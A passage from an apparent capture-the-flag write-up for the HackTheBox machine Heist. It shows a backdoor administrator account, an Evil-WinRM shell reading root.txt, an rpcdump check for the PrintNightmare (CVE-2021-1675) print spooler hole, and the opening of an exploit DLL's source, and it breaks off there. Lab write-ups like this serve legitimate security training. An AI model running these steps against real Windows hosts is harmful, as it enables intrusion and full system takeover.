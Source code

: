     Password last set            7/8/2021 7:08:26 AM
    Password expires             Never
    Password changeable          7/8/2021 7:08:26 AM
    Password required            Yes
    User may change password     Yes
    
    Workstations allowed         All
    Logon script
    User profile
    Home directory
    Last logon                   Never
    
    Logon hours allowed          All
    
    Local Group Memberships      *Administrators
    Global Group memberships     *None
    The command completed successfully.
    

I can connect over Evil-WinRM and access anything, like `root.txt`:

    
    
    oxdf@parrot$ evil-winrm -i 10.10.10.149 -u 0xdf -p 0xdf0xdf
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\0xdf\Documents> cd ..\..\administrator\desktop
    *Evil-WinRM* PS C:\Users\administrator\desktop> type root.txt
    50dfa3c6************************
    

### Cube0x0 Impacket RCE

#### Scanning

Cube0x0 gives a way to test if the box is vulnerable using `rpcdump.py`, and
Heist is:

    
    
    oxdf@parrot$ rpcdump.py @10.10.10.149 | grep MS-RPRN
    Protocol: [MS-RPRN]: Print System Remote Protocol 
    

#### DLL

[Cube0x0’s exploit](https://github.com/cube0x0/CVE-2021-1675) for
PrintNightmare works remotely with creds. First, I’ll need to build a Dll.
I’ve walked through this in [detail before for HackBack](/2019/07/06/htb-
hackback.html#arbitrary-write--diaghub--system). I’ll follow a similar set of
steps to create a C++ DLL project, and use the following source for my Dll:

    
    
    // dllmain.cpp : Defines the entry point for the DLL application.
    #include "pch.h"
    #include <stdlib.h>
    